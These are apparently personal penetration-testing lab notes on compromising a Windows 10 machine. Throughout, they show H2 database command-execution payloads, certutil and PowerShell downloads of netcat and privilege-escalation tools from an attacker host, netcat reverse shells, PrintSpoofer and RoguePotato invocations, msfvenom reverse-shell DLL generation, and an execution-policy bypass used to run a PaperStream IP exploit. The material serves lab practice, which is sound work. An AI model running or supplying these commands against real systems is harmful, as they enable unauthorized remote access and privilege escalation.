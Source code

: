 ### Bypass the weird box using `\\`
```
C:\Windows\System32>whoami.exe
whoami.exe
jacko\tony

C:\Windows\System32>whoami
whoami
jacko\tony

C:\Windows\System32>cd ..
cd ..

C:\Windows>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```

```
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir c:\\").getInputStream()).useDelimiter("\\Z").next()');

CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -urlcache -f http://192.168.49.97/nc.exe C:\\users\\tony\\desktop\\nc.exe").getInputStream()).useDelimiter("\\Z").next()');


CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir C:\\users\\tony\\desktop").getInputStream()).useDelimiter("\\Z").next()');

CREATE ALIAS IF NOT EXISTS JNIScriptEngine_eval FOR "JNIScriptEngine.eval";
CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("C:\\users\\tony\\desktop\\nc.exe -e cmd 192.168.49.97 9001").getInputStream()).useDelimiter("\\Z").next()');
```

### Use powershell.exe or fix PATH variable so that we can execute some common commands.
```
c:\Windows\System32>certutil -urlcache -f http://192.168.49.97/PrintSpoofer64.exe PrintSpoofer64.exe
certutil -urlcache -f http://192.168.49.97/PrintSpoofer64.exe PrintSpoofer64.exe
****  Online  ****


CertUtil: -URLCache command completed successfully.
```
But failed. Fix above with `set PATH=%SystemRoot%\system32;%SystemRoot%;`

```
c:\Windows\SysWOW64\WindowsPowerShell\v1.0>powershell.exe
powershell.exe
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Try the new cross-platform PowerShell https://aka.ms/pscore6

PS C:\Windows\SysWOW64\WindowsPowerShell\v1.0> certutil -urlcache -f http://192.168.49.97/PrintSpoofer64.exe PrintSpoofer64.exe <- won't work properly

PS C:\users\tony> Invoke-WebRequest "http://192.168.49.97/PrintSpoofer64.exe" -OutFile PrintSpoofer64.exe
```

PS C:\users\tony> Get-ComputerInfo
Get-ComputerInfo


WindowsBuildLabEx                                       : 18362.1.amd64fre.19h1_release.190318-1202
WindowsCurrentVersion                                   : 6.3
WindowsEditionId                                        : Enterprise
WindowsInstallationType                                 : Client
WindowsInstallDateFromRegistry                          : 1/1/1970 12:00:00 AM
WindowsProductId                                        : 
WindowsProductName                                      : Windows 10 Enterprise
WindowsRegisteredOrganization                           : 
WindowsRegisteredOwner                                  : tony
WindowsSystemRoot                                       : C:\Windows
WindowsVersion                                          : 1909


### PrintSpoofer and RoguePotato are all failed
```
.\PrintSpoofer64.exe -c "C:\Users\Tony\Desktop\nc.exe 192.168.49.97 7890 -e cmd"

.\PrintSpoofer64.exe -c "type C:\Users\Administrator\Desktop\proof.txt"

.\PrintSpoofer64.exe -c "C:\Windows\System32\whoami.exe"Invoke-WebRequest "http://192.168.49.97/PrintSpoofer64.exe" -OutFile PrintSpoofer64.exe

Invoke-WebRequest "http://192.168.49.97/RoguePotato.exe" -OutFile RoguePotato.exe

.\RoguePotato.exe -r 192.168.49.97 -l 8888 -e c:\windows\system32\cmd.exe -a "/c C:\Users\Tony\Desktop\nc.exe -e cmd 192.168.49.97 7890" -t * -c {F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}

RoguePotato.exe -r 192.168.49.97 -e "C:\Users\Tony\Desktop\nc.exe -e cmd 192.168.49.97 7890" -l 9999 -c "{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}" -p splintercode

RoguePotato.exe -r 192.168.49.97 -e "C:\Users\Tony\Desktop\nc.exe -e cmd 192.168.49.97 7890" -l 9092 -c "{F87B28F1-DA9A-4F35-8EC0-800EFCF26B83}"

.\RoguePotato.exe -r 192.168.49.97 -e "C:\Users\Tony\Desktop\nc.exe -e cmd 192.168.49.97 7890" -l 9092 -c "{B91D5831-B1BD-4608-8198-D72E155020F7}" -p UsoSvc


Invoke-WebRequest "http://192.168.49.97/shell.exe" -OutFile shell.exe
```

### Root
##### Within C:\Program Files (x86), we find an interesting program: PaperStream IP. EDB or searchsploit it.
```
msfvenom -p windows/x64/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.49.97 LPORT=8082 # Not working
msfvenom -p windows/shell_reverse_tcp -f dll -o shell.dll LHOST=192.168.49.243 LPORT=8082 # Note the application is found under "Program Files (x86)", so can't use the `x64` as payload.

certutil -urlcache -f "http://192.168.49.97/shell.dll" shell.dll
certutil -urlcache -f "http://192.168.49.97/49382.ps1" 49382.ps1

c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe c:\users\tony\49382.ps1 
File C:\Users\tony\49382.ps1 cannot be loaded because running scripts is disabled on this system. For 
more information, see about_Execution_Policies at https:/go.microsoft.com/fwlink/?LinkID=135170.

c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass c:\users\tony\49382.ps1 
c:\Windows\SysWOW64\WindowsPowerShell\v1.0\powershell.exe -ep bypass c:\users\tony\exploit.ps1 
```
Above should work but didn't. So, I reset the manchine and it worked.
